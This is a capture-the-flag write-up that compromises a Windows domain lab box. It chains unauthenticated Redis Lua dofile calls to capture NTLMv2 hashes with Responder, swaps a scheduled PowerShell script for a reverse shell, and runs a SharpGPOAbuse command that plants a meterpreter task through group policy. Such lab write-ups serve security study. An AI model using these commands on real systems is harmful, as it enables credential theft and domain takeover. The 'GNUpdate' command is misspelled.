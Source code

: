 
# Initial Enumeration
## NMAP Top 1000 with Versions and Scripts
```
PORT    STATE SERVICE       REASON  VERSION
53/tcp  open  domain        syn-ack Simple DNS Plus
135/tcp open  msrpc         syn-ack Microsoft Windows RPC
139/tcp open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds? syn-ack
464/tcp open  kpasswd5?     syn-ack
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 0s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 37084/tcp): CLEAN (Timeout)
|   Check 2 (port 25628/tcp): CLEAN (Timeout)
|   Check 3 (port 53810/udp): CLEAN (Timeout)
|   Check 4 (port 30869/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-08-04T17:31:11
|_  start_date: N/A
```

## NMAP Full Port Sweep 
```
PORT      STATE SERVICE      REASON
53/tcp    open  domain       syn-ack
135/tcp   open  msrpc        syn-ack
139/tcp   open  netbios-ssn  syn-ack
445/tcp   open  microsoft-ds syn-ack
464/tcp   open  kpasswd5     syn-ack
6379/tcp  open  redis        syn-ack
9389/tcp  open  adws         syn-ack
49666/tcp open  unknown      syn-ack
49667/tcp open  unknown      syn-ack
49669/tcp open  unknown      syn-ack
49670/tcp open  unknown      syn-ack
49673/tcp open  unknown      syn-ack
49688/tcp open  unknown      syn-ack
49714/tcp open  unknown      syn-ack

```

## Enum4Linux-ng Interesting Output
```
[*] Checking SMB            
[+] SMB is accessible on 445/tcp              
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 ==========================================
|    RPC Session Check on 10.10.208.250    |
 ==========================================
[*] Check for null session
[+] Server allows session using username '', password ''


 ====================================================
|    Domain Information via RPC for 10.10.208.250    |
 ====================================================
[+] Domain: VULNNET
[+] SID: S-1-5-21-1405206085-1650434706-76331420
[+] Host is part of a domain (not a workgroup)
```


## Redis Enumeration
The redis install running on port 6379 doesn't require authentication so we can collect information with 
`CONFIG GET *`
This leaks a username
`enterprise-security`

### LUA DOFILE
We are able to pull files from the local system using `EVAL 'DOFILE("<SMB SHARE>") 0'`

If we catch this process on responder to give us a user NTLMv2 hash
```
enterprise-security::VULNNET:4af
<SNIPPET>
00000800300030000000000000000000000000300000B6F1A5003AA3B5FB0DE3A974E4DEF80283D1B5F1E3C8C6D01A3FF59DD12EDC4A0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310031002E00340031002E00380033000000000000000000
```

This cracks down to `Redacted`

# Credentials
 Obtained from Redis config and dofile onto a Responder SMB share
```
enterprise-security:sa<REDACTED>98
```


## Authenticated Enumeration
Piping these credentials into [[CrackMapExec]] we found that we have READ access to the `Enterprise-Share`  SMB share. 

This contained `PurgeIrrelevantData_1826.ps1` 

PurgeIrrelevantData_1826.ps1:
```
rm -Force C:\Users\Public\Documents\* -ErrorAction SilentlyContinue
```


Pulling this file from SMB and putting in a powershell reverse shell, we can get a call back from the task scheduler executing the updated file.



## Privesc

We can see from running bloodhound that we have generic write privileges on security-policy-vn 

We can use a PowerTool module (This didn't work in my case) or you can use SharpGPOAbuse.exe created by F-Secure
[https://github.com/FSecureLABS/SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)

Note you can either compile SharpGPOAbuse.exe yourself from the f-secure repo
or you can download a pre-compiled version from 
[https://github.com/byronkg/SharpGPOAbuse/releases/tag/1.0](https://github.com/byronkg/SharpGPOAbuse/releases/tag/1.0)

Upload a meterpreter shell and create your immediate task like so.
```
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author "VULNNET\Administrator" --Command "cmd.exe" --Arguments "/c C:\Enterprise-Share\shelly.exe" --GPOName "security-pol-vn" --Force
```

Once you have injected your task, you will need to force a Group Policy update with the following
```
GNUpdate /force
```

With any luck you should gain a root shell.